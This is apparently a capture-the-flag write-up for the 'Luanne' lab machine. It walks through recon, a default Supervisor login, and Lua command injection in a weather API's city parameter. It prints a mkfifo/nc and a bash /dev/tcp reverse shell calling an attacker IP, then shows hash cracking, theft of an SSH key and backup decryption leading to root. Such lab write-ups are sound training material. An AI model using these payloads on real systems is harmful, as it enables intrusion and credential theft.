







# Luanne

## Machine Info



## Recon

- nmap, BSD os
  - ssh, 22
  - http, 80
  - http, 9001

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey:
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-robots.txt: 1 disallowed entry
|_/weather
|_http-title: 401 Unauthorized
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
|_http-server-header: nginx/1.19.0
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
|_http-title: Error response
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|WAP|storage-misc
Running (JUST GUESSING): NetBSD 5.X|9.X|7.X|3.X (96%), Apple NetBSD 4.X (95%), Apple embedded (93%), QNX RTOS 6.X (92%)
OS CPE: cpe:/o:netbsd:netbsd:5.1.2 cpe:/o:apple:netbsd cpe:/o:netbsd:netbsd:7.99 cpe:/o:netbsd:netbsd:3.1.1 cpe:/h:apple:airport_extreme cpe:/o:apple:netbsd:4.99 cpe:/o:qnx:rtos:6.5.0
Aggressive OS guesses: NetBSD 5.1.2 (96%), NetBSD 9.0 - 9.1 (96%), NetBSD 5.0 - 5.99.5 (95%), Apple AirPort Extreme WAP (version 7.7.3) or NetBSD 7.99 (95%), Apple AirPort Extreme WAP (version 7.7.3) (93%), NetBSD 7.0 (93%), NetBSD 3.1.1 (93%), Apple AirPort Extreme WAP (NetBSD 4.99) (92%), Apple AirPort Extreme WAP or Time Capsule NAS device (NetBSD 4.99), or QNX RTOS 6.5.0 (92%), NetBSD 2.1.0_STABLE or Ricoh C720S, 1107EX, MP 2550, or MP 7001 printer (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```

- both 9001 and 80 http page need credentials to authenticate

## Foothold

### default credential

- `http://10.10.10.218:9001`, Supervisor process manager



- Google search about Official site to check the default credential: `user:123`



- login successfully => Supervisor 4.2.0 => 3 processes to exhibit some machine info
  - memory: nothing special
  - uptime: nothing special
  - **processes**: [important] check processes running on this machine



- `http://10.10.10.218:9001/tail.html?processname=processes`

```console
AM 0:00.01 /usr/sbin/sshd 
nginx        375  0.0  0.1  33920  3264 ?     I    10:12AM 0:00.65 nginx: worker process 
_httpd       376  0.0  0.0  34956  1988 ?     Is   10:12AM 0:00.03 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www 
root         402  0.0  0.0  20216  1652 ?     Is   10:12AM 0:00.11 /usr/sbin/cron 
_httpd     25133  0.0  0.0  13464   892 ?     O     7:07PM 0:00.00 /usr/bin/egrep ^USER| \\[system\\] *$| init *$| /usr/sbin/sshd *$| /usr/sbin/syslogd -s *$| /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 *$| /usr/sbin/cron *$| /usr/sbin/powerd *$| /usr/libexec/httpd -u -X -s.*$|^root.* login *$| /usr/libexec/getty Pc ttyE.*$| nginx.*process.*$ 
root         421  0.0  0.0  19780  1592 ttyE1 Is+  10:12AM 0:00.00 /usr/libexec/getty Pc ttyE1 
root         388  0.0  0.0  19780  1584 ttyE2 Is+  10:12AM 0:00.00 /usr/libexec/getty Pc ttyE2 
root         433  0.0  0.0  20256  1596 ttyE3 Is+  10:12AM 0:00.00 /usr/libexec/getty Pc ttyE3 
```

- Process of httpd with 3000 port: `/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www`
- [httpd(8) (daemon-systems.org)](https://www.daemon-systems.org/man/httpd.8.html)

```console
 -u         Enables the transformation of Uniform Resource Locators of the
            form /~user/ into the directory ~user/public_html (but see the
            -p option above).
 -X         Enables directory indexing.  A directory index will be
            generated only when the default file (i.e.  index.html
            normally) is not present.
 -s         Forces logging to be set to stderr always.
 -i address
            Causes address to be used as the address to bind daemon mode.
            If otherwise unspecified, the address used to bind is derived
            from the myname, which defaults to the name returned by
            gethostname(3).  Only the last -i option is used.  This option
            is only valid with the -b option.
 -L prefix script
            Adds a new Lua script for a particular prefix.  The prefix
            should be an arbitrary text, and the script should be a full
            path to a Lua script.  Multiple -L options may be passed.  A
            separate Lua state is created for each prefix.  The Lua script
            can register callbacks using the
            httpd.register_handler('<name>', function) Lua function, which
            will trigger the execution of the Lua function function when a
            URL in the form http://<hostname>/<prefix>/<name> is being
            accessed.  The function is passed three tables as arguments,
            the server environment, the request headers, and the decoded
            query string plus any data that was sent as application/x-www-
            form-urlencoded.
 -U username
            Causes bozohttpd to switch to the user and the groups of
            username after initialization.  This option, like -t above,
            causes bozohttpd to clear the environment unless the -e option
            is given.
 -b         Enables daemon mode, where bozohttpd detaches from the current
            terminal, running in the background and servicing HTTP
            requests.
 Besides ~user translation and
 virtual hosting support (see below), all file requests are from slashdir
 directory.  The server uses myname as its name, which defaults to the
 local hostname, obtained from gethostname(3) (but see the -v option for
 virtual hosting.)  
```

### Lua Command Injection

- `/robots.txt`: `/weather`

```console
└─╼$ curl http://10.10.10.218/robots.txt
User-agent: *
Disallow: /weather  #returning 404 but still harvesting cities
```

- catch package by Burp Suite
  - 80 port nginx is used as the proxy to the localhost 3000
  - weather service found in 9001 port service of monitoring processes



- path recon: `/weather`

```console
└─╼$ gobuster dir -u http://10.10.10.218/weather -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 64 -k --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.218/weather
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/forecast             (Status: 200) [Size: 90]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
```

- recon `/weather/forecast`

```console
└─╼$ curl http://10.10.10.218/weather/forecast
{"code": 200, "message": "No city specified. Use 'city=list' to list available cities."}

└─╼$ curl http://10.10.10.218/weather/forecast?city=list
{"code": 200,"cities": ["London","Manchester","Birmingham","Leeds","Glasgow","Southampton","Liverpool","Newcastle","Nottingham","Sheffield","Bristol","Belfast","Leicester"]}                                                        
└─╼$ curl http://10.10.10.218/weather/forecast?city=Birmingham
{"code": 200,"city": "Birmingham","list": [{"date": "2024-01-27","weather": {"description": "snowy","temperature": {"min": "12","max": "46"},"pressure": "1799","humidity": "92","wind": {"speed": "2.1975513692014","degree": "102.76822959445"}}},{"date": "2024-01-28","weather": {"description": "partially cloudy","temperature": {"min": "15","max": "43"},"pressure": "1365","humidity": "51","wind": {"speed": "4.9522297247313","degree": "262.63571172766"}}},{"date": "2024-01-29","weather": {"description": "sunny","temperature": {"min": "19","max": "30"},"pressure": "1243","humidity": "13","wind": {"speed": "1.8041767538525","degree": "48.400944394059"}}},{"date": "2024-01-30","weather": {"description": "sunny","temperature": {"min": "30","max": "34"},"pressure": "1513","humidity": "84","wind": {"speed": "2.6126398323104","degree": "191.63755226741"}}},{"date": "2024-01-31","weather": {"description": "partially cloudy","temperature": {"min": "30","max": "36"},"pressure": "1772","humidity": "53","wind": {"speed": "2.7699138359167","degree": "104.89152945159"}}}]}
```

- if the city name is unknown, how to change this url to test a lua command injection
  - `qwe'` -> error
  - `qwe"`
  - `qwe)`
  - `qwe')` -> error disappears
  - `qwe")`

```console
└─╼$ curl http://10.10.10.218/weather/forecast?city=qwe
{"code": 500,"error": "unknown city: qwe"}
```

- Lua Command Injection, POC:

```console
└─╼$ curl -s "http://10.10.10.218/weather/forecast?city=qwe')--"
{"code": 500,"error": "unknown city: qwe

└─╼$ curl -s "http://10.10.10.218/weather/forecast?city=qwe');require('os');os.execute('id');--"
{"code": 500,"error": "unknown city: qweuid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

So, in order to use this vuln to get a lua reverse shell, test some required packages like `socket` and `os`.

- os: yes
- socket: no

```console
└─╼$ curl -s "http://10.10.10.218/weather/forecast?city=qwe');require('socket');require('os');--"
{"code": 500,"error": "unknown city: qwe<br>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: module 'socket' not found:
        no field package.preload['socket']
        no file '/usr/share/lua/5.3/socket.lua'
        no file '/usr/share/lua/5.3/socket/init.lua'
        no file '/usr/lib/lua/5.3/socket.lua'
        no file '/usr/lib/lua/5.3/socket/init.lua'
        no file '/usr/lib/lua/5.3/socket.so'
        no file '/usr/lib/lua/5.3/loadall.so'
```

Try different reverse shell implementations, nc[x], bash -i[x], bash -c[x], mkfifo[yes].

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/f`
- Exploit: `curl -G --data-urlencode "city=') os.execute('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0&>1"') 'http://10.10.10.218/weather/forecast'`

- nc to get a _httpd priv shell

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.218] 65346
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
$ uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

## Privilege Escalation

### _httpd -> r.michaels

- check 80 port http service directory:
  - `index.html`: need credential to get authenticated
  - `robots.txt`
  - `.htpasswd`: hash value => crack: `iamthebest`

```console
$ ls -al
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25  2020 .
drwxr-xr-x  24 root  wheel  512 Nov 24  2020 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html <- authenticated resource
-rw-r--r--   1 root  wheel   78 Nov 25  2020 robots.txt
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

```console
└─╼$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

- enum processes in this machine



```console
$ ps auxw | grep michael | grep -v grep
r.michaels   185  0.0  0.0  39032  1976 ?     Is   10:12AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /hom
$ ps auxww | grep michael | grep -v grep
r.michaels   185  0.0  0.0  39032  1976 ?     Is   10:12AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

3001 port also has a `/weather/forecast` service with no command injection, no poc:

```console
$ curl -G --data-urlencode "city=qwe');require('os');os.execute('id');--" "http://127.0.0.1:3001/weather/forecast"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    78    0    78    0     0  19500      0 --:--:-- --:--:-- --:--:-- 26000
{"code": 500,"error": "unknown city: qwe');require('os');os.execute('id');--"}
```

httpd's `-u` option meaning:

```console
 -u         Enables the transformation of Uniform Resource Locators of the
            form /~user/ into the directory ~user/public_html (but see the
            -p option above).
```

and this process belongs to r.machael which means we can enum this user's home directory using `/~r.machaels` with cracked password:

```console
$ curl http://127.0.0.1:3001/~r.michaels/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   211  100   211    0     0  70333      0 --:--:-- --:--:-- --:--:-- 70333
<html><head><title>401 Unauthorized</title></head>
<body><h1>401 Unauthorized</h1>
~r.michaels//: <pre>No authorization</pre>
<hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
</body></html>

$ curl http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   146k      0 --:--:-- --:--:-- --:--:--  146k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```



Get ssh private key and use it to login using `ssh -i id_rsa`:

```console
└─╼$ ssh -i id_rsa r.michaels@$IP
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
luanne$ uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

### r.michaels -> root

- linux has sudo enum, freebsd has **doas** enum
  - but the password of r.michael is unknown

```console
luanne$ find / -name doas.conf 2>/dev/null | xargs cat
permit r.michaels as root
luanne$ doas su root
Password:
doas: authentication failed
```

- enum **encrypted** data and **decryption** key

```console
luanne$ ls -al
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 .
drwxr-xr-x  3 root        wheel   512 Sep 14  2020 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Sep 14  2020 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16  2020 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24  2020 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16  2020 devel
dr-x------  2 r.michaels  users   512 Sep 16  2020 public_html
-r--------  1 r.michaels  users    33 Sep 16  2020 user.txt

luanne$ cd backups/
luanne$ ls
devel_backup-2020-09-16.tar.gz.enc
luanne$ file devel_backup-2020-09-16.tar.gz.enc
devel_backup-2020-09-16.tar.gz.enc: data

luanne$ pwd
/home/r.michaels/.gnupg
luanne$ ls -l
total 8
-rw-------  1 r.michaels  users   603 Sep 14  2020 pubring.gpg
-rw-------  1 r.michaels  users  1291 Sep 14  2020 secring.gpg
```

The two files listed in the `/home/r.michaels/.gnupg` directory, `pubring.gpg` and `secring.gpg`, are used by the `GnuPG` (GNU Privacy Guard) key management system. GnuPG is a widely used encryption software that provides data encryption and signing capabilities, primarily for the protection of data security and the verification of data integrity. Here is an introduction to these two files:

- `pubring.gpg`
  This file is the user's public keyring, which contains the user's public keys and possibly other trusted public keys. In GnuPG, public keys are used for encrypting information and verifying signatures. Anyone can safely obtain and use the public key to encrypt messages to the user or to verify the user's digital signature. Since public keys do not need to be kept secret, they can be freely shared.

- `secring.gpg`
  This file is the private keyring, which contains the user's private keys. In GnuPG's public key encryption system, private keys are used to decrypt information and create digital signatures. Private keys must be kept strictly confidential because anyone with access to the private key can read encrypted messages and produce digital signatures.

Important Security Note: Starting with GnuPG 2.1, the private keyring `secring.gpg` is no longer used, and private keys are now stored in the `private-keys-v1.d` directory. If you are using a newer version of GnuPG, you might not see the `secring.gpg` file. Additionally, `pubring.gpg` has become outdated and has been replaced by `pubring.kbx`. If these files are still in use on your system, it may be because you are using an older version of GnuPG, or because these files have been migrated from an old system.

Tool `netpgp` is able to make use of these two files.

```console
luanne$ netpgp
NetPGP portable 3.99.17/[20101103]
All bug reports, praise and chocolate, please, to:
Alistair Crooks <agc@netbsd.org> c0596823
Usage: netpgp COMMAND OPTIONS:
netpgp  --help OR
        --encrypt [--output=file] [options] files... OR
        --decrypt [--output=file] [options] files... OR

        --sign [--armor] [--detach] [--hash=alg] [--output=file]
                [options] files... OR
        --verify [options] files... OR
        --cat [--output=file] [options] files... OR
        --clearsign [--output=file] [options] files... OR
        --list-packets [options] OR
        --version
where options are:
        [--cipher=<ciphername>] AND/OR
        [--coredumps] AND/OR
        [--homedir=<homedir>] AND/OR
        [--keyring=<keyring>] AND/OR
        [--numtries=<attempts>] AND/OR
        [--userid=<userid>] AND/OR
        [--maxmemalloc=<number of bytes>] AND/OR
        [--verbose]
```

- decrypt `devel_backup-2020-09-16.tar.gz.enc`

```console
luanne$ netpgp --decrypt --output=/tmp/outputfile.tar.gz --keyring=/home/r.michaels/.gnupg/secring.gpg /home/r.michaels/backups/devel_backup-2020-09-16.tar.gz.enc
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid              RSA 2048-bit key <r.michaels@localhost>
luanne$ gunzip outputfile.tar.gz
luanne$ tar xvf outputfile.tar
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
luanne$ pwd
/tmp/devel-2020-09-16/www
luanne$ cat .htpasswd
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```

- get another hash value: `$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.` => crack: `r.michael:littlebear` => doas su to change to root user

```console
└─╼$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear
```

```console
luanne$ doas su root
Password:
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

## Exploit Chain

port scan -> two page need authentication -> 9001 with default credential -> enum process info -> /weather dir for 80 port -> path recon -> /weather/forecast -> lua command injection with mkfifo reverse shell -> _httpd shell -> check 80 port service home dir -> htpasswd -> crack to get a username & password -> check processes in this machine -> 3001 local service with -u option -> use cracked credential to enum the content of /~r.michaels/ -> ssh private key -> r.michaels priv shell -> doas enum -> need password -> enum backup and key ring files -> use netpgp to decrypt backup -> crack another hash value -> r.michaels' doas password -> root priv shell

## Beyond Root

### GnuPG vs. NetPGP

NetPGP is an implementation of encryption software aimed to be compatible with OpenPGP, just like GnuPG. OpenPGP is a non-proprietary protocol for encrypting and decrypting communications defined by IETF's RFC 4880. Both NetPGP and GnuPG implement this protocol, but they are developed by different organizations and have different features and design philosophies.

**NetPGP**:

- **Developing Organization**: NetPGP was initially developed by the NetBSD project, with the goal of providing a native PGP implementation for the NetBSD operating system.
- **Portability**: NetPGP is designed to be portable, meaning that it can be relatively easily adapted to different operating systems.
- **User Interface**: NetPGP provides command-line tools similar to GnuPG, allowing users to perform key management and encryption tasks.
